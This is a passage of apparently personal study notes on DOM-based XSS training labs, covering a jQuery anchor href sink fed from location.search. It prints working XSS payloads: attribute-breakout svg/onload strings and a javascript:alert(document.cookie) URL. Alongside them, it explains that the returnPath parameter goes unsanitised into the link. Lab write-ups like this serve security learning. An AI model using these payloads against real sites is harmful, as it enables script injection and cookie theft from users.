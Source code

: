 Close the double quote and tag, then start a new tag is allowed.

![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2012.png)

```jsx
'"<svg onload=javascript:alert(1);>button</a><!--
'"<a onload=javascript:alert(1);>button</a><!--
```

## LAB 05: ****DOM XSS in jQuery anchor `href` attribute sink using `location.search` source**

![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2013.png)

```jsx
javascript:alert(document.cookie);
```

returnPath always take the root [/] as the return path to the home page and set it directly to the back <a> tag, and function written in jQuery is taking the returnPath param directly from the URL without any santinize or validation. So, what if we change the returnPath directly from the URL to some kind that match with href attribute in a tag that trigger alert event?

